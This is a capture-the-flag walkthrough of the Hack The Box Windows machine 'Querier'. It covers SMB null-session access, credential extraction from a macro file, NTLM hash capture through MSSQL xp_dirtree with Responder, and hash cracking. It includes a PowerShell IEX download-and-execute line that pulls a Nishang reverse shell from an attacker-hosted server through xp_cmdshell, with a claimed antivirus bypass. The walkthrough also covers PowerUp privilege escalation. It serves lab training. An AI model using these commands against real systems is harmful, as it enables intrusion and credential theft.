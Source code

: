```yaml
---
title: 'HTB - Querier'
author: paincakes
date: 2023-06-30 20:55:00 +0800
categories: [HTB, Medium]
tags: [windows, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Querier/Info.png)

# Summary
The machine **Querier** was a fun and medium level windows box, which involved macro file enumeration, mssql service exploitation, and some basic windows privilege escalation steps. We could access the SMB service with null authentication and download the macro files which contained credentials of a user which was used to connect with the mssql database. With help of mssql exploitation and Responder tool we could capture the NTLM hash of another privileged users by which we could spawn a reverse shell. After that using basic enumeration tools from Powerspolit we can escalate our privilege to Administrator user.


## NMAP Scanning

Let’s start with our Initial `nmap` scan,

![nmap](https://paincakes.sirv.com/Images/HTB/Querier/nmap.png)

The Nmap result shows gives some interesting Windows services and ports mainly focusing on,
- Port 135, 139, 445 running SMB service
- Port 1433 running MSSQL Service
- Port 5985, 47001 running HTTP service

*Note: The HTTP services are shown but not actually working*

## SMB Null Authentication

Seeing the SMB Service running I used crackmapexec command on smb services to check the domain names and see if we have access to the SMB service.

`crackmapexec smb <ip>`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/domain.png)

Before doing any further enumeration do not forget to add the domain name and IP to the `/etc/hosts` file.
Now, we can use NULL authentication using smblient tool and access the shares from the smb service.

`smbclient -N -L ////<ip>`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/smbclient%20null.png)

Clearly from the Names we can figure out that only **Reports** Share Folder is accessible, and others are default shares which we may not have access.
We can again access the share using smbclient and we can see a file **Currency Volume Report.xlsm** which we download it to our local machine using get.

`smbclient //<ip>/<share_name>`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/file.png)

## Macro File Enumeration

Since the downloaded file had “m” after “xls” in its extension I guess it could be a macro file, and to confirm the doubt I opened it with Libre office which could not load the file and said it was a macro file. The macro file can be scanned and analyzed using [olevba](https://github.com/decalage2/oletools.git) tool which gave us the credentials for the database authentication.

`olevba <file_name>`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/obleva.png)

## MSSQL Exploitation

After getting the credentials to connect to the database service we can login with impacket’s `mssqlclient.py` tool which can be used for executing commands remotely.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/mssql-svc.png)

The user “reporting” had very limited access and could not enumerate much useful information. After researching further on msssqlclient exploitation I found that using the `xp_dirtree` command we can get it to connect to the SMB service in our local machine where we can intercept it using `Responder` tool to capture the NTLM hash while it tried to connect to the SMB share.

`xp_dirtree “\\<ip>\<sharename>”`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/xp_dirtree.png)

### Using Responder To Get Hash

Before executing the command make sure that Responder in listening on the background.
`sudo responder -wd -v -I <interface>`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/responder.png)

After executing the `xp_dirtree` command the Responder will Capture the NTLM hash of the **mssql-svc** user.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/hash.png)

Copy the hash in a file and try to crack it using `hashcat` tool.

### Cracking the hash

The hash captured by the responder can be cracked using `hashcat` or `john` password or any other password cracking tools, but in my case, I used `hashcat`.

`hashcat -m 5600 <file_containing_hash> <wordlist>`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/hashcat.png)

After some time, the hash is cracked and password for **mssql-svc** user is **corporate568**

![querier](https://paincakes.sirv.com/Images/HTB/Querier/hashcracked.png)

I tried logging in with smbclient using the credentials od “msssql-svc” user but still the shares were same with no further information. So again, I tried logging in with **mssqlclient.py** tool.

Using the impacket’s `mssqlclient.py` tool again and this time logging in with “mssql-svc” user who had more privileges than the “reporting” user. We can access the terminal from the `mssqlclient.py` using command.

```
enable_xp_cmdshell
xp_cmdshell <cmd>
```

For other commands execute `help` command.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/mssql-svc.png)

And we can see we our privilege of the current user using command,

`xp_cmdshell whomai /priv`

![querier](https://paincakes.sirv.com/Images/HTB/Querier/priv.png)

This terminal not so user friendly and commands are sometimes difficult to execute, let’s try spawning a reverse shell since now we have more privilege than **reporting** user.

### Getting Reverse Shell

For spawning a reverse shell, I used Nishang’s [PowershellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and renamed it to `rev.ps1` and hosted it using python http server. But before hosting the file in the http server, you should append the following line using echo.

`echo Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port <port> >> rev.ps1`

The remote machine will block the script if you try to execute it separately without appending it to the script. Appending that line to the script will execute it immediately after downloading it which will bypass the Antivirus software.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/invokecmd.png)
![querier](https://paincakes.sirv.com/Images/HTB/Querier/pythonserver.png)

After hosting the python http server open a netcat listener on another terminal, and now from `mssqlclient.py` we need to execute powershell command to download the file from our http server.

```
xp_cmdshell powershell IEX(New-Object New.WebClient).downloadstring(\”http://<ip>/<filename>\”)
```

After executing the xp_cmdshell command we will get the reverse shell on netcat listener which we had setup earlier and find the user flag on `C:\Users\mssql-svc\Desktop` Folder.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/userflag.png)

## Prvilege Escalation
Now we have a proper terminal, we can focus on privilege escalation. One of the best scripts to enumerate a Windows machine is [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) from Powerspolit. We can download it using `wget` in our machine and again host it using python http server.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/Powerup.png)

And again, before hosting the file over the http server we need to append the following line using echo.
`echo Invoke-AllChecks >> PowerUp.ps1`

Now on the reverse shell we can execute the `PowerUp.ps1` script and enumerate the windows machine with `Invoke -AllChecks` command which will give lots of useful information and vulnerabilities of the machine and reveals the credentials of **Administrator** User.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/admin%20creds.png)

Now after getting the credentials of **Administrator**, We can simply use impacket’s `psexec.py` to access the administrator privileged terminal of the remote machine.

The root flag will be found in `C:\Users\Administrator\Desktop\` Folder.

![querier](https://paincakes.sirv.com/Images/HTB/Querier/root%20flag.png)









